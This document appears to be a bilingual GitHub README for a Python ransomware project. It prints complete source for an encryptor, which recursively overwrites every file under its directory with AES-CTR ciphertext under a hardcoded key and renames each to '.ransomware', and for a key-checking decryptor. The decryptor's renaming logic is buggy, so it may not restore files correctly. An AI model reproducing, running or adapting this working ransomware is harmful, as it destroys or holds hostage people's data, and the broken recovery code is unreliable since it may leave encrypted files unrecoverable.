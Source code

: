 # Projeto em Python de um Ransomware (PT-BR)

### Funcionamento

- O intuito deste projeto é criar um Ransomware que criptografe arquivos presentes na pasta onde o Malware está.

- Este Ransomware é dividido em dois executaveis, um deles terá a função de criptografar os arquivos e o outro terá o objetivo de descriptografa-los futuramente.

### Código de Criptografia

- O executavel abre todos os arquivos presentes na pasta onde ele se encontra, verificando se já não estão criptografados ou se não são os próprios executaveis.

- Após abrir cada arquivo presente na pasta ele copia os dados e os criptografa, reescrevendo em seguida o arquivo. Ele também substitui a estenção do arquivo para ".ransomware".

```python
import os
import pyaes

for root, dir, files in os.walk("./"):
    for f in files:
        if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] != "ransomware":
            name = os.path.join(root, f)

            with open(name, "rb") as file:
                file_data = file.read()

            key = b"secretencryptkey"
            aes = pyaes.AESModeOfOperationCTR(key)

            data_encrypt = aes.encrypt(file_data)

            with open(name, "wb") as file:
                file.write(data_encrypt)

            os.rename(name, f"{name}.ransomware")
```

- A chave de criptografia utilizada foi "secretencryptkey", essa chave será utilizada futuramente durante a descriptografia.

### Código de Descriptografia

- Para que o processo se inicie, o executavel exige que o usuário digite a mesma chave de criptografia que foi utilizada para criptografar os arquivos anteriormente. Se digitado corretamente, o processo se inicia, caso contrário, ele apenas retorna a mensagem "Wrong Key!" para o usuário.

- Após a chave de criptografia ser informada corretamente, o executável abre todos os arquivos presentes na pasta, verificando não são os próprios executáveis e se contém a extensão ".ransomware". Com isso, apenas os arquivos que já haviam sido criptografados serão abertos.

- Para cada arquivo aberto, o executável copia dos dados, os descriptografa e reescreve o arquivo. Para finalizar, ele exclui a extensão ".ransomware". Fazendo com que o arquivo volte a seu estado original descriptografado.

```python
import os
import pyaes

secret = input("What the secret key?")

if secret == "secretencryptkey":
    for root, dir, files in os.walk("./"):
        for f in files:
            if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] == "ransomware":
                name = os.path.join(root, f)
                
                with open(name, "rb") as file:
                    file_data = file.read()

                key = secret.encode()
                aes = pyaes.AESModeOfOperationCTR(key)

                data_decrypt = aes.decrypt(file_data)

                with open(name, "wb") as file:
                    file.write(data_decrypt)

                new_name = name.strip(".ransomware")
                os.rename(name, f".{new_name}")
else:
    print("Wrong Decrypt Key!")
```

### Resultados

- 

### Considerações Finais

- Diferentemente de um Ransomware real, o desenvolvido neste projeto apenas criptografa os arquivos presentes na pasta onde os executaveis se encontram, logo, CUIDADO com os testes realizados fora de um local de testes apropriado.

- Este projeto ainda está em desenvolvimento e sendo atualizado.

# Ransomware Project in Python (EN-US)

### Functionality

- The purpose of this project is to create a Ransomware that encrypts files present in the folder where the Malware is.

- This Ransomware is divided into two executables, one of which will have the function of encrypting the files and the other will have the purpose of decrypting them in the future.

### Encryption Code

- The executable opens all the files in the folder where it is located, checking whether they are already encrypted or whether they are not the executables themselves.

- After opening each file in the folder, it copies the data and encrypts it and then rewrites the file. It also replaces the file extension with ".ransomware".

```python
import os
import pyaes

for root, dir, files in os.walk("./"):
    for f in files:
        if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] != "ransomware":
            name = os.path.join(root, f)

            with open(name, "rb") as file:
                file_data = file.read()

            key = b"secretencryptkey"
            aes = pyaes.AESModeOfOperationCTR(key)

            data_encrypt = aes.encrypt(file_data)

            with open(name, "wb") as file:
                file.write(data_encrypt)

            os.rename(name, f"{name}.ransomware")
```

- The encryption key used was "secretencryptkey", this key will be used later during decryption.

### Decryption Code

- For the process to start, the executable requires the user to enter the same encryption key that was used to encrypt the files previously. If entered correctly, the process starts, otherwise, it simply returns the message "Wrong Key!" to the user.

- After the encryption key is entered correctly, the executable opens all files in the folder, checking if they are not the executables themselves and if they contain the ".ransomware" extension. This means that only files that had already been encrypted will be opened.

- For each file opened, the executable copies the data, decrypts it, and rewrites the file. Finally, it deletes the ".ransomware" extension. This returns the file to its original decrypted state.

```python
import os
import pyaes

secret = input("What the secret key?")

if secret == "secretencryptkey":
    for root, dir, files in os.walk("./"):
        for f in files:
            if f != "decrypt.py" and f != "encrypt.py" and f.split(".")[-1] == "ransomware":
                name = os.path.join(root, f)
                
                with open(name, "rb") as file:
                    file_data = file.read()

                key = secret.encode()
                aes = pyaes.AESModeOfOperationCTR(key)

                data_decrypt = aes.decrypt(file_data)

                with open(name, "wb") as file:
                    file.write(data_decrypt)

                new_name = name.strip(".ransomware")
                os.rename(name, f".{new_name}")
else:
    print("Wrong Decrypt Key!")
```

### Results

- 

### Final Considerations

- Unlike real Ransomware, the one developed in this project only encrypts the files present in the folder where the executables are located, therefore, BE CAREFUL with tests performed outside an appropriate testing location.

- This project is still under development and being updated.
